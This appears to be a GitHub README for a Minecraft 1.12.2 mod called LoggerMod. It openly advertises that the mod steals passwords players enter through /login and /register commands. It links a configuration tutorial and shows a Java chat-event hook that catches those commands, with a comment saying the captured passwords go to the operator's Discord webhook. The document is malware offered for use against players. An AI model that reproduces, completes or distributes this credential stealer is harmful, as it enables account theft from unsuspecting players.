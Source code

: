 # 🔌 LoggerMod
This mod on 1.12.2 steals the entered passwords (Entered via /login)


# ⚡ How to configure?
You can easily change the config for yourself  
Tutorial: [Click](https://www.youtube.com/watch?v=RxuuHBnjgj0) (in Russian)

# ❓ How it Works?
```java
    @SubscribeEvent
    public void ChatEvent(ClientChatEvent e) {
        String msg = e.getMessage();
        String[] sentences = e.getMessage().split(" ");

        if ((msg.startsWith("/l") || msg.startsWith("/login") || msg.startsWith("/reg") || msg.startsWith("/register")) && sentences.length > 1) {
            // Sending to your discord server use Webhook
        }
    }
``` 

# 📱 Screenshots
![Screenshot_20220303_200054](https://user-images.githubusercontent.com/100863585/156613993-d4fd0a97-e967-4539-be72-2893f90d70ba.png)
